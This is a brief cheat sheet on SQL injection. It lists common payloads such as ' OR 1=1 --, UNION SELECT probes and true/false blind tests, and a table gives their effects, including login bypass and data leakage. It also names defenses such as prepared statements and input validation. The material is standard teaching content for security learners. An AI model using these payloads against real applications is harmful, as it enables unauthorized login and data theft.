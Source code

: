Common SQLi Payloads:

- ' OR 1=1 --
- ' UNION SELECT NULL, NULL --
- ' AND 1=1 --
- ' AND 1=2 --

Defenses:

- Prepared statements
- Input validation
- WAF (Web Application Firewall)
- DB user privilege control

| Type             | Example                    | Result              |
| ---------------- | -------------------------- | ------------------- |
| **Login Bypass** | `' OR 1=1 --`              | Skip password       |
| **Error-Based**  | `'`                        | Site gives DB error |
| **Union-Based**  | `' UNION SELECT 1,2,3 --`  | Leak other data     |
| **Blind SQLi**   | `' AND 1=1` vs `' AND 1=2` | Guess slowly        |
